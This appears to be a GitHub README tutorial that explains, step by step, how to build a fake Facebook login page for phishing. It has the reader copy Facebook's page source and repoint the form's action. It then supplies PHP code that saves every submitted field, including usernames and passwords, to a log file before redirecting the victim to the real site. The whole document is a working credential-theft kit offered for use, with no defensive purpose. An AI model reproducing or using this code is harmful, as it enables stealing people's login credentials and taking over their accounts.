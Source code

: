 # Creating-a-phishing-page---very simple-steps-for-dummies-PhP-

Phishing is the most common attack which is used to hack any login details.
For which we need to have phishing pages to upload then in hosting sites.
Here i will show you an example of creating Phishing page (fake loGin page) of Facebook.The method is same for any other website
What we are going to do now.Normally in phishing we will just create a login page which looks same like the real website. For this we need not to code the whole script of the desired website. 

StepS to Reproduced:

1. First go to the desired website Login page for which you want to create Phishing page
lets take www.facebook.com

2. Right click on the website and choose “page source” . Now you can see the whole script of the website.

3. Copy the whole script and paste it into a text file. Press Control+F and type ” action “.
Here in the case of “www.facebook.com “. The script line that has “action” looks something like this.
action=”https://www.facebook.com/login.php?login_attempt=1“. Now replace everything inside the quotes with ” login.php”. So it will look like action=”login.php“ 

4. Save the file as index.html.

5. Now open a new text file and paste the following code

header (‘Location: http://facebook.com ‘);

$handle = fopen(“logs_86354.txt”, “a”);

foreach($_POST as $variable => $value) {

fwrite($handle, $variable);

fwrite($handle, “=”);

fwrite($handle, $value);

fwrite($handle, “\r\n”);

}

fwrite($handle, “===============\r\n”);

fclose($handle);

exit;

?>

Save it as “login.php”

